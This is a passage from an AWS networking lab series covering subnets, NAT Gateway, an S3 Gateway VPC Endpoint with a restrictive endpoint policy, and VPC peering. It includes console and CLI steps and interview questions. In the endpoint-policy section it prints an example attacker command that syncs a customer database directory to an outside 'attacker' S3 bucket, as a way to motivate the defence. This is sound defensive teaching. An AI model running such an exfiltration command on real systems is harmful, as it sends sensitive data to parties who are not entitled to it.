# Verify Subnets (should show 4)
aws ec2 describe-subnets --filters "Name=vpc-id,Values=$VPC_ID" \
    --query 'Subnets[*].{Name:Tags[?Key==`Name`].Value|[0],CIDR:CidrBlock,AZ:AvailabilityZone}' --output table

# Verify routes
aws ec2 describe-route-tables --filters "Name=vpc-id,Values=$VPC_ID" \
    --query 'RouteTables[*].{Name:Tags[?Key==`Name`].Value|[0],Routes:Routes[*].{Dest:DestinationCidrBlock,Target:GatewayId||NatGatewayId}}'
```

📸 **Screenshot 12** — Validation Output
> **Verify**: 4 subnets, 2 route tables, IGW route on public, NAT route on private

---

## Troubleshooting

| Problem | Likely Cause | Fix |
|---------|-------------|-----|
| NAT Gateway stuck in "Pending" | EIP not allocated | Allocate new EIP |
| Private instance can't reach internet | NAT route missing in private RT | Add 0.0.0.0/0 → NAT to private RT |
| Public instance has no public IP | Auto-assign not enabled | Enable on subnet or use EIP |
| Subnets show 0 available IPs | CIDR overlap or too small | Check CIDR doesn't overlap |

---

## Interview Questions From This Practical

**Q1: Draw a production VPC on a whiteboard.**
A: VPC (10.0.0.0/16) → 2 AZs → each AZ has public subnet (ALB) + private subnet (EC2, RDS). IGW attached. NAT Gateway in public subnet. Public RT → IGW. Private RT → NAT. Security groups chain: ALB→EC2→RDS.

**Q2: Why do we need 2 AZs minimum?**
A: High availability. If AZ-A fails, AZ-B continues serving traffic. ALB distributes across both. RDS Multi-AZ standby is in the other AZ. This is AWS's minimum HA standard.

**Q3: NAT Gateway costs $32/month. How do you reduce this?**
A: 1) Use VPC endpoints for AWS services (S3 Gateway endpoint is free). 2) Use a single NAT per region (not per AZ) for non-critical workloads. 3) Use NAT instance (t3.nano) for dev environments. 4) Minimize internet-bound traffic from private subnets.

---

## Cleanup

⚠️ **Only clean up if you're NOT continuing to the next practical!** This VPC is used by Practicals 07-56.

```bash
# Delete NAT Gateway first (takes 2-3 minutes)
aws ec2 delete-nat-gateway --nat-gateway-id $NAT_ID
sleep 120
aws ec2 release-address --allocation-id $EIP_ALLOC

# Delete route table associations and tables
# Delete security groups
# Delete subnets
# Detach and delete IGW
# Delete VPC
```

---
---

# 🔬 Practical Lab 07 — Public vs Private Subnet

## Lab Overview

| Item | Detail |
|------|--------|
| **Difficulty** | Beginner |
| **Duration** | 20 minutes |
| **Cost** | Free tier (t2.micro) |
| **Prerequisites** | Practical 06 completed (VPC exists) |
| **Lab Environment** | Environment 2 — Network |

## Business Scenario

> A junior engineer asks: "Why can't we just put everything in a public subnet?" You need to demonstrate the difference and explain why production apps use private subnets with ALB.

## Architecture



---

### Step 1 — Launch EC2 in Public Subnet

1. Launch `t2.micro` in `prod-public-subnet-a` with `prod-ec2-sg` (HTTP open)
2. Assign public IP → Access via browser → Works directly ✅

📸 **Screenshot 01** — Public EC2 Accessible
> **What you should see**: Web page loads directly via public IP
> **Verify**: Instance has public IP, directly accessible from internet

### Step 2 — Launch EC2 in Private Subnet

1. Launch `t2.micro` in `prod-private-subnet-a` with same security group
2. No public IP assigned → Cannot access from internet ❌

📸 **Screenshot 02** — Private EC2 Not Accessible
> **What you should see**: No public IP, browser can't connect
> **Verify**: Instance only has private IP (10.0.3.x)

### Step 3 — Verify Private Instance Has Outbound Internet

1. Connect via **Session Manager** to private instance
2. Run: `curl -s https://checkip.amazonaws.com` → Shows NAT Gateway's Elastic IP

📸 **Screenshot 03** — Private Outbound via NAT
> **What you should see**: NAT Gateway's EIP returned, confirming outbound works
> **Verify**: IP shown is the NAT Gateway's EIP, not the instance's private IP

🎯 **Interview Insight**: "Why not put application servers in public subnets?"
> **Strong answer**: "Public subnets expose instances directly to internet attacks. Production pattern: ALB in public subnet terminates SSL and distributes traffic. EC2/ECS in private subnets — only reachable from ALB. RDS in private subnet — only from EC2. Reduces attack surface dramatically."

---

## Cleanup

```bash
aws ec2 terminate-instances --instance-ids $PUB_INSTANCE $PRIV_INSTANCE
```

---
---

# 🔬 Practical Lab 08 — NAT Gateway

## Lab Overview

| Item | Detail |
|------|--------|
| **Difficulty** | Beginner |
| **Duration** | 15 minutes |
| **Cost** | NAT Gateway already running from Practical 06 |
| **Prerequisites** | Practical 06, 07 completed |
| **Lab Environment** | Environment 2 — Network |

## Business Scenario

> Private EC2 instances need to download software updates (yum/apt) and pull Docker images from the internet, but should NOT be directly accessible from the internet. NAT Gateway provides this one-way outbound access.

---

### Step 1 — Verify NAT Gateway Flow

1. Connect to private EC2 via **Session Manager**
2. Test outbound internet:

```bash
# Test outbound connectivity
curl -s https://checkip.amazonaws.com  # Shows NAT EIP
sudo dnf update -y                      # Downloads from internet via NAT
ping -c 3 google.com                    # ICMP outbound works
```

📸 **Screenshot 01** — Outbound via NAT Working
> **What you should see**: checkip returns NAT's EIP, dnf update downloads packages
> **Verify**: IP is NAT Gateway's EIP, not the instance's private IP

### Step 2 — Demonstrate No Inbound Access

```bash
# From your local machine, try to reach the private instance
curl -s --connect-timeout 5 http://10.0.3.x  # Timeout — can't reach private IP from internet
```

📸 **Screenshot 02** — Inbound Blocked
> **What you should see**: Connection timeout
> **Verify**: Private subnet instances are NOT reachable from internet (one-way only)

### Step 3 — Remove NAT Route and Observe

1. Remove 0.0.0.0/0 route from private route table temporarily
2. From private EC2: `curl -s --connect-timeout 5 https://checkip.amazonaws.com` → Timeout

📸 **Screenshot 03** — No Internet Without NAT
> **What you should see**: curl times out — no internet access
> **⚠️ Re-add the route**: Add 0.0.0.0/0 → NAT back to private RT immediately

🎯 **Interview Insight**: "How does NAT Gateway work?"
> **Strong answer**: "NAT Gateway performs network address translation — replaces the private source IP with its own Elastic IP for outbound traffic, then maps responses back. It's stateful, so return traffic is allowed. It's a managed service — HA within AZ, scales to 45 Gbps. Place in a public subnet, point private route table to it."

---
---

# 🔬 Practical Lab 09 — VPC Endpoints (Gateway Endpoint for Amazon S3)

## Lab Overview

| Item | Detail |
|------|--------|
| **Difficulty** | Intermediate |
| **Duration** | 20 minutes |
| **Cost** | Free (Gateway Endpoints for S3 and DynamoDB are 100% free) |
| **Prerequisites** | Practical 06 (Production VPC), Practical 07, Practical 08 completed |
| **Lab Environment** | Environment 2 — Network (`prod-vpc`) |

## Business Scenario

> Your backend EC2 application instances in private subnets upload daily application logs, static assets, and database backups to an Amazon S3 bucket. Currently, all S3 traffic leaves the private subnet through the NAT Gateway, traversing the internet before reaching S3. 
> 
> At a volume of 10 TB per month, your AWS monthly bill includes **$450 in NAT Gateway data processing fees** ($0.045 per GB) just for communicating with an AWS-internal service. In addition, routing sensitive internal data through the internet increases security risks. 
> 
> You need to eliminate NAT processing costs and secure data in transit by creating an **Amazon S3 Gateway VPC Endpoint** so all S3 traffic stays on the private AWS backbone.

## Architecture



## What You Will Learn

1. **How Gateway Endpoints work** — understand route table prefix list entries without ENIs or IP addresses.
2. **Cost reduction in practice** — completely bypass NAT Gateway data processing charges for S3 and DynamoDB.
3. **AWS Console & CLI configuration** — deploy an S3 Gateway Endpoint and associate it with private route tables.
4. **Endpoint policy enforcement** — restrict S3 access through the endpoint to prevent data exfiltration.
5. **Connectivity validation** — verify S3 communication succeeds even when NAT Gateway access is completely disabled.

---

### Step 1 — Verify Baseline S3 Access via NAT Gateway

> 💡 **Why This Step Is Essential:**
> Before creating the VPC Endpoint, we must establish our baseline. We need to verify that private EC2 instances can currently reach S3, and prove that all outbound traffic currently exits through the NAT Gateway's public Elastic IP.

#### Option A: AWS Management Console (Session Manager)
1. Open the **EC2 Console** (https://console.aws.amazon.com/ec2).
2. Click **Instances** in the left sidebar → Select your private instance: **`prod-private-ec2`**.
3. Click the orange **Connect** button at the top right.
4. Select the **Session Manager** tab → Click **Connect**.
5. Once your browser terminal opens, run the following verification commands:

```bash
# 1. Check outbound public IP — This displays the NAT Gateway's Elastic IP!
curl -s https://checkip.amazonaws.com

# 2. List S3 buckets — Traffic currently travels through NAT Gateway (incurring $0.045/GB data fees)
aws s3 ls
```

#### Option B: AWS CLI

```bash
# Connect to private EC2 via AWS CLI Session Manager plugin
aws ssm start-session --target $PRIV_INSTANCE

# Inside the session, verify NAT Gateway outbound IP and S3 reachability
curl -s https://checkip.amazonaws.com
aws s3 ls
```

📸 **Screenshot 01** — Baseline S3 Access via NAT Gateway
> **What you should see**: `curl checkip.amazonaws.com` returns the NAT Gateway Elastic IP, and `aws s3 ls` returns your account's bucket list.
> **Verify**: S3 API call succeeds, but traffic flows through the NAT Gateway outbound route.

---

### Step 2 — Create the S3 Gateway VPC Endpoint

#### Option A: AWS Management Console

1. Navigate to **VPC Console** → **Endpoints** → click **Create endpoint**.
2. Configure endpoint details:
   - **Name tag**: `prod-s3-gateway-endpoint`
   - **Service category**: Select **AWS services**
   - **Services**: Search for `s3` and select `com.amazonaws.ap-south-1.s3` with **Type: Gateway**
   - **VPC**: Select `prod-vpc`
   - **Route tables**: Select the check box for `prod-private-rt` (your private route table)
   - **Policy**: Keep **Full access** (default) or provide custom least-privilege policy
3. Click **Create endpoint**.

#### Option B: AWS CLI

```bash
# Set your Region and VPC ID variables
AWS_REGION="ap-south-1"
VPC_ID=$(aws ec2 describe-vpcs --filters "Name=tag:Name,Values=prod-vpc" --query "Vpcs[0].VpcId" --output text)
PRIV_RT=$(aws ec2 describe-route-tables --filters "Name=vpc-id,Values=$VPC_ID" "Name=tag:Name,Values=prod-private-rt" --query "RouteTables[0].RouteTableId" --output text)

# Create S3 Gateway VPC Endpoint and attach to private route table
VPCE_ID=$(aws ec2 create-vpc-endpoint \
    --vpc-id $VPC_ID \
    --service-name com.amazonaws.${AWS_REGION}.s3 \
    --route-table-ids $PRIV_RT \
    --tag-specifications 'ResourceType=vpc-endpoint,Tags=[{Key=Name,Value=prod-s3-gateway-endpoint}]' \
    --query 'VpcEndpoint.VpcEndpointId' --output text)

echo "Created S3 Gateway Endpoint: $VPCE_ID"
```

📸 **Screenshot 02** — S3 Gateway Endpoint Created & Available
> **What you should see**: Status shows **available** with Type **Gateway** and Service Name `com.amazonaws.ap-south-1.s3`.
> **Verify**: Endpoint ID starts with `vpce-` and associated Route Table shows `prod-private-rt`.

---

### Step 3 — Inspect Route Table for Injected S3 Prefix List

1. Open **VPC Console** → **Route tables** → Select `prod-private-rt`.
2. Inspect the **Routes** tab:
   - Notice that AWS automatically added a new route!
   - **Destination**: `pl-58a04531` (AWS S3 regional prefix list representing all public IP CIDRs used by Amazon S3 in `ap-south-1`).
   - **Target**: `vpce-xxxxxxxxx` (your newly created VPC Endpoint ID).
   - **Status**: `Active`.

```bash
# Verify route table has the S3 prefix list entry via CLI
aws ec2 describe-route-tables --route-table-id $PRIV_RT \
    --query 'RouteTables[0].Routes[?starts_with(DestinationPrefixListId, `pl-`)]' --output table
```

📸 **Screenshot 03** — Injected S3 Prefix List in Private Route Table
> **What you should see**: Route entry showing Destination `pl-xxxxxxxx` and Target `vpce-xxxxxxxx`.
> **Verify**: Most specific route rule applies: S3 IP ranges match prefix list and route directly to endpoint instead of default 0.0.0.0/0 route.

---

### Step 4 — Prove S3 Works Completely Without NAT Gateway

> 💡 **Why This Test Matters:**
> To definitively prove that traffic is flowing directly across the AWS private network backbone through the Gateway Endpoint (and not using the NAT Gateway), we temporarily sever the internet connection by removing the default route (`0.0.0.0/0`).
> If S3 operations continue working while normal internet traffic is blocked, we have 100% confirmation of private connectivity.

#### Option A: AWS Management Console

**1. Temporarily Sever Internet Access (Remove NAT Route):**
1. Open the **VPC Console** → Click **Route tables** in the left sidebar.
2. Select your private route table: **`prod-private-rt`**.
3. In the lower details pane, click the **Routes** tab → Click **Edit routes**.
4. Locate the row with **Destination: `0.0.0.0/0`** (Target: `nat-xxxx`).
5. Click **Remove** on that row.
6. Click **Save changes**. *(Your private subnet is now completely isolated from the public internet).*

**2. Test Connectivity from Private EC2:**
1. Switch to your active Session Manager terminal on the private EC2 instance.
2. Run a general internet test:
   ```bash
   curl -s --connect-timeout 5 https://google.com
   ```
   *Result*: Fails with a connection timeout (as expected, internet is down).
3. Run an Amazon S3 command:
   ```bash
   aws s3 ls
   ```
   *Result*: Succeeds immediately! The S3 bucket list returns instantly because it routes over `pl-58a04531` to `vpce-xxxx`.
4. Perform an end-to-end S3 file upload:
   ```bash
   # Create a test bucket and upload a test file
   BUCKET_NAME="prod-vpc-endpoint-test-$(aws sts get-caller-identity --query Account --output text)"
   aws s3 mb s3://${BUCKET_NAME}
   echo "Traffic routed securely via S3 Gateway VPC Endpoint without NAT Gateway!" > endpoint-proof.txt
   aws s3 cp endpoint-proof.txt s3://${BUCKET_NAME}/
   aws s3 cp s3://${BUCKET_NAME}/endpoint-proof.txt downloaded.txt
   cat downloaded.txt
   ```

**3. Restore the NAT Route:**
1. Back in the **VPC Console** → **Route tables** → Select `prod-private-rt` → **Routes** tab → Click **Edit routes**.
2. Click **Add route**:
   - **Destination**: `0.0.0.0/0`
   - **Target**: Select **NAT Gateway** → Select your NAT Gateway ID (`nat-xxxx`).
3. Click **Save changes**.

#### Option B: AWS CLI

```bash
# 1. Delete default route to NAT Gateway
aws ec2 delete-route --route-table-id $PRIV_RT --destination-cidr-block 0.0.0.0/0

# 2. Test internet (Must fail/timeout)
curl -s --connect-timeout 5 https://google.com || echo "Internet is unreachable (Expected!)"

# 3. Test S3 (Must succeed instantly via VPC Endpoint)
aws s3 ls
BUCKET_NAME="prod-vpc-endpoint-test-$(aws sts get-caller-identity --query Account --output text)"
aws s3 mb s3://${BUCKET_NAME}
echo "Gateway Endpoint Verified" > proof.txt
aws s3 cp proof.txt s3://${BUCKET_NAME}/
aws s3 rm s3://${BUCKET_NAME}/proof.txt
aws s3 rb s3://${BUCKET_NAME}

# 4. Restore the NAT Gateway route
aws ec2 create-route --route-table-id $PRIV_RT \
    --destination-cidr-block 0.0.0.0/0 \
    --nat-gateway-id $NAT_ID
```

📸 **Screenshot 04** — S3 Access Functioning in Isolated Subnet
> **What you should see**: `curl google.com` times out, while `aws s3 ls` and upload operations succeed instantaneously.
> **Verify**: S3 traffic routes directly over AWS private backbone without passing through NAT Gateway.

---

### Step 5 — Enforce Endpoint Security with VPC Endpoint Policy (Defense in Depth)

> 💡 **The Security Problem: Data Exfiltration via VPC Endpoints**
> By default, an S3 Gateway Endpoint has a **Full Access policy** (`"Principal": "*", "Resource": "*"`).
> This means that any instance in your VPC can connect to **ANY S3 bucket in the world**, including buckets owned by external or rogue personal AWS accounts!
> 
> If an attacker or malicious script compromises an EC2 instance in your private subnet, they could run:
> ```bash
> aws s3 sync /var/data/customer-database s3://attacker-personal-account-bucket/
> ```
> And the endpoint would allow the data to leave!
> 
> To prevent data exfiltration, we apply a **VPC Endpoint Policy**. The endpoint policy acts as a **perimeter firewall** at the gateway level. It enforces that traffic through this endpoint can **ONLY** interact with authorized corporate buckets.

#### Option A: AWS Management Console (Click-by-Click)

1. Open the **VPC Console** (https://console.aws.amazon.com/vpc).
2. In the left navigation menu, click **Endpoints**.
3. Select your S3 endpoint: **`prod-s3-gateway-endpoint`**.
4. In the lower details pane, click the **Policy** tab.
5. In the top-right of the policy pane, click **Edit policy**.
6. Under **Policy**, change from **Full access** to **Custom**.
7. In the JSON policy editor, replace the default policy with the following restricted policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAccessToCorporateBucketsOnly",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "s3:GetObject",
        "s3:PutObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::prod-corp-*",
        "arn:aws:s3:::prod-corp-*/*"
      ]
    }
  ]
}
```
*(This policy allows actions ONLY on buckets whose names start with `prod-corp-`).*

8. Click **Save changes**.

#### Option B: AWS CLI

```bash
# 1. Create a policy file on your EC2 instance / CloudShell
cat << 'EOF' > endpoint-policy.json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAccessToCorporateBucketsOnly",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "s3:GetObject",
        "s3:PutObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::prod-corp-*",
        "arn:aws:s3:::prod-corp-*/*"
      ]
    }
  ]
}
EOF

# 2. Apply the restrictive policy to the VPC Endpoint
aws ec2 modify-vpc-endpoint \
    --vpc-endpoint-id $VPCE_ID \
    --policy-document file://endpoint-policy.json
```

#### Hands-On Verification: Test Allowed vs. Blocked S3 Operations

To confirm that the perimeter policy is actually protecting your VPC, run these two tests from your private EC2 Session Manager terminal:

**Test 1: Verify Allowed Access (Authorized Corporate Bucket)**
```bash
# 1. Create an authorized bucket matching the allowed prefix "prod-corp-"
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
CORP_BUCKET="prod-corp-data-${ACCOUNT_ID}"
aws s3 mb s3://${CORP_BUCKET}

# 2. Upload a file to the authorized bucket
echo "Approved Corporate Data" > data.txt
aws s3 cp data.txt s3://${CORP_BUCKET}/

# 3. List the bucket contents
aws s3 ls s3://${CORP_BUCKET}/
```
**Expected Output:** ✅ **Success!** File uploads and lists without error because the bucket ARN matches `arn:aws:s3:::prod-corp-*`.

**Test 2: Verify Data Exfiltration Prevention (Unauthorized External Bucket)**
```bash
# 1. Try to list or write to a public AWS sample bucket or unauthorized bucket:
aws s3 ls s3://aws-batch-samples/
```
**Expected Output:**
```text
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```
```bash
# 2. Try to create or write to any bucket that doesn't start with "prod-corp-":
aws s3 mb s3://rogue-exfiltration-bucket-${ACCOUNT_ID}
```
**Expected Output:**
```text
An error occurred (AccessDenied) when calling the CreateBucket operation: Access Denied
```

> 🎯 **Security Takeaway**: 
> Even if an attacker compromises root credentials inside the EC2 instance, they **cannot** exfiltrate data to an external S3 bucket through this VPC. The VPC Endpoint Policy blocks the request at the network perimeter before it ever touches Amazon S3!

📸 **Screenshot 05** — VPC Endpoint Policy Applied & Access Denied Verified
> **What you should see**: 
> - VPC Endpoint Policy showing the restricted JSON document in the VPC Console.
> - Terminal showing successful upload to `prod-corp-*` and `AccessDenied` when attempting to access unauthorized buckets.
> **Verify**: Data exfiltration is successfully blocked at the VPC boundary.

---

## Validation

```bash
# 1. Verify endpoint state
aws ec2 describe-vpc-endpoints --vpc-endpoint-ids $VPCE_ID \
    --query 'VpcEndpoints[0].{ID:VpcEndpointId,Service:ServiceName,State:State,Type:VpcEndpointType}'

# 2. Verify route table associations
aws ec2 describe-vpc-endpoints --vpc-endpoint-ids $VPCE_ID \
    --query 'VpcEndpoints[0].RouteTableIds'
```

---

## Troubleshooting

| Problem | Likely Cause | Solution |
|---------|-------------|----------|
| `Connect timeout` when running `aws s3 ls` without NAT | Endpoint not associated with private route table | Navigate to VPC Endpoint → Actions → **Manage route tables** → Check `prod-private-rt`. |
| Cross-region S3 bucket calls fail | Gateway Endpoints are **regional** only | Gateway endpoints only route traffic to S3 buckets in the same region. Use an S3 Interface Endpoint or route cross-region traffic through NAT. |
| `Access Denied` error on `aws s3 cp` | Restrictive Endpoint Policy or S3 Bucket Policy | Verify that the Endpoint Policy includes the target bucket ARN and the S3 Bucket Policy allows requests from `aws:sourceVpce`. |
| CLI commands hang for non-S3 services | Instance has no internet and service has no endpoint | Only S3 and DynamoDB support Gateway Endpoints. For other services (ECR, SSM, SQS), create an **Interface Endpoint** (PrivateLink). |

---

## Interview Questions From This Practical

**Q1: What is the primary difference between a VPC Gateway Endpoint and an Interface Endpoint?**
> **Strong Answer**: 
> - **Gateway Endpoints**: Free of charge, operate via route table prefix list entries (`pl-xxxx`), do NOT use ENIs or private IP addresses, and only support two services: **Amazon S3** and **Amazon DynamoDB**. They cannot be accessed from on-premises networks via VPN or Direct Connect.
> - **Interface Endpoints (PrivateLink)**: Cost ~$0.01/hour + data processing, provision Elastic Network Interfaces (ENIs) with private IP addresses directly in your subnets, use Private DNS, support 100+ AWS services as well as custom partner services, and **can** be accessed from on-premises networks across VPN and Direct Connect.

**Q2: How does an S3 Gateway Endpoint save money in production?**
> **Strong Answer**: 
> "NAT Gateway charges $0.045 per GB for data processing in addition to standard outbound data transfer. An S3 Gateway Endpoint is completely free with zero per-GB data processing fees. By keeping heavy S3 traffic (backups, logs, data lake uploads) on the internal AWS backbone, organizations regularly save hundreds to thousands of dollars per month on networking costs."

**Q3: Can an on-premises server access an S3 Gateway Endpoint over AWS Direct Connect?**
> **Strong Answer**: 
> "No. Gateway Endpoints rely on VPC Route Tables which cannot route traffic originating outside the VPC (Direct Connect or Site-to-Site VPN). To access Amazon S3 privately from an on-premises data center, you must use an **S3 Interface Endpoint** (PrivateLink) or an on-premises proxy inside the VPC."

---

## Cleanup

```bash
# Delete the S3 Gateway VPC Endpoint (restores standard routing via NAT Gateway)
aws ec2 delete-vpc-endpoints --vpc-endpoint-ids $VPCE_ID
```

---
---

# 🔬 Practical Lab 10 — VPC Peering

## Lab Overview

| Item | Detail |
|------|--------|
| **Difficulty** | Intermediate |
| **Duration** | 25 minutes |
| **Cost** | Free (VPC peering has no hourly charge, only data transfer) |
| **Prerequisites** | Practical 06 completed |
| **Lab Environment** | Environment 2 — Network |

## Business Scenario

> Your company has a shared services VPC (monitoring, CI/CD) and a production VPC. Resources in both VPCs need to communicate privately without going through the internet. You need to establish VPC Peering.

## Architecture



---

### Step 1 — Create Second VPC & Test Instance (Shared Services)

> 💡 **Why This Step Is Essential:**
> VPC Peering connects two separate virtual networks. To demonstrate real-world cross-VPC communication, we must set up a second independent VPC (`shared-vpc`) that represents an administrative or shared tools environment (e.g., centralized monitoring, bastion servers, or shared build agents).
> 
> **Key Architecture Requirements:**
> - **Non-Overlapping CIDR**: `prod-vpc` uses `10.0.0.0/16`. Our `shared-vpc` will use `10.1.0.0/16` (peering will fail if CIDRs overlap).
> - **Subnet**: A private subnet `shared-subnet-a` with CIDR `10.1.1.0/24`.
> - **Target EC2 Instance**: A lightweight Linux instance inside `shared-vpc` with private IP `10.1.1.x` to serve as the destination ping target.

#### Option A: AWS Management Console

**1. Create `shared-vpc`:**
1. Open the **VPC Console** (https://console.aws.amazon.com/vpc).
2. In the left navigation menu, click **Your VPCs** → click the orange **Create VPC** button.
3. Under **VPC settings**:
   - Select **VPC only** (not "VPC and more").
   - **Name tag**: Enter `shared-vpc`.
   - **IPv4 CIDR block**: Select **IPv4 CIDR manual input**.
   - **IPv4 CIDR**: Enter `10.1.0.0/16`.
   - **Tenancy**: Leave as **Default**.
4. Click **Create VPC**.
5. *(Best Practice)*: Select `shared-vpc` from the list → click **Actions** → **Edit VPC settings**:
   - Check **Enable DNS hostnames**.
   - Check **Enable DNS resolution**.
   - Click **Save changes**.

**2. Create Subnet in `shared-vpc`:**
1. In the left navigation menu, click **Subnets** → click **Create subnet**.
2. **VPC ID**: Select your newly created `shared-vpc`.
3. Under **Subnet settings**:
   - **Subnet name**: Enter `shared-subnet-a`.
   - **Availability Zone**: Choose the same zone as your primary prod instances (e.g., `ap-south-1a` or `us-east-1a`).
   - **IPv4 CIDR block**: Enter `10.1.1.0/24`.
4. Click **Create subnet**.

**3. Launch Test EC2 Instance in `shared-vpc`:**
1. Open the **EC2 Console** → click **Instances** → click **Launch instances**.
2. **Name**: `shared-ec2-instance`.
3. **Application and OS Images**: Select **Amazon Linux 2023 AMI**.
4. **Instance type**: Select `t2.micro` (or `t3.micro`).
5. **Key pair**: Select **Proceed without a key pair** (or choose your existing key).
6. Under **Network settings**, click **Edit**:
   - **VPC**: Select `shared-vpc`.
   - **Subnet**: Select `shared-subnet-a`.
   - **Auto-assign public IP**: Select **Disable** (keep instance strictly private).
   - **Firewall (security groups)**: Select **Create security group**:
     - **Security group name**: `shared-ec2-sg`
     - **Description**: `Security group for shared-vpc instance`
     - Under **Inbound security groups rules**, click **Add security group rule**:
       - **Type**: Select **All ICMP - IPv4**
       - **Source**: Select **Custom** → Enter `10.0.0.0/16` (`prod-vpc` CIDR)
       - **Description**: `Allow ping from prod-vpc`
7. Under **Advanced details**:
   - **IAM instance profile**: Select `EC2-SSM-Role` (allows AWS Systems Manager connection without SSH).
8. Click **Launch instance**.
9. Wait for the instance state to show **Running**, then select it and note its **Private IPv4 address** (e.g., `10.1.1.25`).

#### Option B: AWS CLI

```bash
# 1. Create shared-vpc with CIDR 10.1.0.0/16
VPC_B=$(aws ec2 create-vpc --cidr-block 10.1.0.0/16 \
    --tag-specifications 'ResourceType=vpc,Tags=[{Key=Name,Value=shared-vpc}]' \
    --query 'Vpc.VpcId' --output text)

# Enable DNS attributes on shared-vpc
aws ec2 modify-vpc-attribute --vpc-id $VPC_B --enable-dns-support "{\"Value\":true}"
aws ec2 modify-vpc-attribute --vpc-id $VPC_B --enable-dns-hostnames "{\"Value\":true}"

# 2. Create private subnet shared-subnet-a (10.1.1.0/24)
SHARED_SUB=$(aws ec2 create-subnet --vpc-id $VPC_B --cidr-block 10.1.1.0/24 \
    --availability-zone ap-south-1a \
    --tag-specifications 'ResourceType=subnet,Tags=[{Key=Name,Value=shared-subnet-a}]' \
    --query 'Subnet.SubnetId' --output text)

# 3. Create Security Group for shared EC2 instance
SHARED_SG=$(aws ec2 create-security-group \
    --group-name "shared-ec2-sg" \
    --description "Security group for shared-vpc instance" \
    --vpc-id $VPC_B \
    --query 'GroupId' --output text)

# Allow ICMP (Ping) from prod-vpc (10.0.0.0/16)
aws ec2 authorize-security-group-ingress \
    --group-id $SHARED_SG \
    --protocol icmp \
    --port -1 \
    --cidr 10.0.0.0/16

# 4. Launch EC2 instance in shared-subnet-a
SHARED_INSTANCE=$(aws ec2 run-instances \
    --image-id resolve:ssm:/aws/service/ami-amazon-linux-latest/al2023-ami-kernel-default-x86_64 \
    --instance-type t2.micro \
    --subnet-id $SHARED_SUB \
    --security-group-ids $SHARED_SG \
    --iam-instance-profile Name=EC2-SSM-Role \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=shared-ec2-instance}]' \
    --query 'Instances[0].InstanceId' --output text)

echo "Created shared-vpc: $VPC_B, Subnet: $SHARED_SUB, Instance: $SHARED_INSTANCE"
```

📸 **Screenshot 01** — Second VPC, Subnet, and EC2 Created
> **What you should see**: `shared-vpc` in available state with subnet `shared-subnet-a` (10.1.1.0/24) and EC2 instance running with private IP `10.1.1.x`.
> **Verify**: VPC CIDR is `10.1.0.0/16` with zero overlap with `prod-vpc` (`10.0.0.0/16`).

---

### Step 2 — Create VPC Peering Connection

#### Option A: AWS Management Console

1. Navigate to **VPC Console** → **Peering connections** in the left sidebar → click **Create peering connection**.
2. Configure peering connection settings:
   - **Name**: `prod-to-shared`
   - **VPC ID (Requester)**: Select `prod-vpc`
   - **Select another VPC to peer with**:
     - **Account**: Select **My account** (same account)
     - **Region**: Select **This region** (same region)
     - **VPC ID (Accepter)**: Select `shared-vpc`
3. Click **Create peering connection**.
4. In the Peering connections list, select `prod-to-shared` (status will show `Pending acceptance`).
5. Click **Actions** in the top right → Select **Accept request** → Click **Accept request** in the confirmation modal.

#### Option B: AWS CLI

```bash
# Request peering connection from prod-vpc to shared-vpc
PEERING_ID=$(aws ec2 create-vpc-peering-connection \
    --vpc-id $VPC_ID \
    --peer-vpc-id $VPC_B \
    --tag-specifications 'ResourceType=vpc-peering-connection,Tags=[{Key=Name,Value=prod-to-shared}]' \
    --query 'VpcPeeringConnection.VpcPeeringConnectionId' --output text)

# Accept the peering connection request
aws ec2 accept-vpc-peering-connection \
    --vpc-peering-connection-id $PEERING_ID

echo "VPC Peering Connection Active: $PEERING_ID"
```

📸 **Screenshot 02** — VPC Peering Active
> **What you should see**: Peering connection `prod-to-shared` with Status **Active**.
> **Verify**: Requester VPC is `prod-vpc` and Accepter VPC is `shared-vpc`.

---

### Step 3 — Update Route Tables (Two-Way Routing)

> 💡 **Why This Step Is Essential:**
> A VPC Peering connection only creates the physical link between the two VPCs. By default, **neither VPC knows how to send traffic to the other**. Route tables are completely independent.
> You must configure routes on **BOTH** sides:
> 1. **In `prod-vpc`**: Tell the route table that any packet destined for `10.1.0.0/16` (`shared-vpc`) must be sent across the Peering Connection (`pcx-xxxx`).
> 2. **In `shared-vpc`**: Tell the route table that any packet destined for `10.0.0.0/16` (`prod-vpc`) must be sent back across the same Peering Connection (`pcx-xxxx`).
> ⚠️ **Common Gotcha**: Updating only one route table creates an "asymmetric black hole" — packets reach the target, but the target cannot send response packets back.

#### Option A: AWS Management Console

**1. Update `prod-vpc` Route Table:**
1. Open the **VPC Console** → Click **Route tables** in the left sidebar.
2. Select your private route table: **`prod-private-rt`**.
3. In the lower details pane, click the **Routes** tab → Click **Edit routes**.
4. Click **Add route**:
   - **Destination**: Enter `10.1.0.0/16` (the CIDR block of `shared-vpc`).
   - **Target**: Click the dropdown → Select **Peering Connection** → Select your peering connection: **`prod-to-shared`** (starts with `pcx-`).
5. Click **Save changes**.

**2. Update `shared-vpc` Route Table:**
1. Still in **Route tables**, select the main route table for **`shared-vpc`**.
2. Click the **Routes** tab → Click **Edit routes**.
3. Click **Add route**:
   - **Destination**: Enter `10.0.0.0/16` (the CIDR block of `prod-vpc`).
   - **Target**: Click the dropdown → Select **Peering Connection** → Select **`prod-to-shared`** (`pcx-`).
4. Click **Save changes**.

#### Option B: AWS CLI

```bash
# 1. Add route in prod-vpc private RT → 10.1.0.0/16 via peering connection
aws ec2 create-route \
    --route-table-id $PRIV_RT \
    --destination-cidr-block 10.1.0.0/16 \
    --vpc-peering-connection-id $PEERING_ID

# 2. Get shared-vpc route table ID and add return route → 10.0.0.0/16 via peering connection
SHARED_RT=$(aws ec2 describe-route-tables \
    --filters "Name=vpc-id,Values=$VPC_B" \
    --query 'RouteTables[0].RouteTableId' --output text)

aws ec2 create-route \
    --route-table-id $SHARED_RT \
    --destination-cidr-block 10.0.0.0/16 \
    --vpc-peering-connection-id $PEERING_ID
```

